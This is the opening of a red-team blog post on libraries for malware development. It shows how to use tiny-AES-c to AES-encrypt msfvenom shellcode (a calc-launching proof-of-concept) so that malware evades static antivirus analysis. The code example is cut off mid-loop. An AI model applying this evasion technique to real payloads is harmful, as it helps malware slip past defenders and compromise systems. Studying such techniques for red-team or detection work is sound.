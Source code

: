 ```yaml
---
layout: post
title: "Useful Libraries for Malware Development"
date: 2022-02-05
categories: [redteam, maldev]
description: "A list of some easy-to-use libraries and how to use them for malware development."
header-img: /static/img/2022-02-05-libraries-for-maldev/inline-syscall-not-detected.png
image: /static/img/2022-02-05-libraries-for-maldev/inline-syscall-not-detected.png
---
```


The use of libraries for development is great especially if you're a beginner and wanted something that will surely work right out of the box and wanted to save time.

In this post, I'll share some of the libraries that I found easy to use and useful during my malware development journey. 


## tiny-AES-c

When writing malware, it's a must to encrypt your shellcode. Otherwise, your malware won't even pass the static analysis. One of the recommended ways of encrypting the shellcode is by using AES, and one of the easiest ways to implement this is by using the [kokke/tiny-AES-c](https://github.com/kokke/tiny-AES-c) library. 

To use this library, just add the following header and source files to your project.

- [aes.hpp](https://raw.githubusercontent.com/kokke/tiny-AES-c/master/aes.hpp)
- [aes.h](https://raw.githubusercontent.com/kokke/tiny-AES-c/master/aes.h)
- [aes.c](https://raw.githubusercontent.com/kokke/tiny-AES-c/master/aes.c)
 
The following shows an example of how to AES-encrypt (using CBC mode) your shellcode and its corresponding output.
```cpp
#include <Windows.h>
#include <stdio.h>
#include "lib/aes.hpp"

int main()
{
	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c 
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
	SIZE_T shellcodeSize = sizeof(shellcode);

	unsigned char key[] = "Captain.MeeloIsTheSuperSecretKey";
	unsigned char iv[] = "\x9d\x02\x35\x3b\xa3\x4b\xec\x26\x13\x88\x58\x51\x11\x47\xa5\x98";

	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_encrypt_buffer(&ctx, shellcode, shellcodeSize);

	printf("Encrypted buffer:\n");

	for (int i = 0; i < shellcodeSize - 1; i++) {
```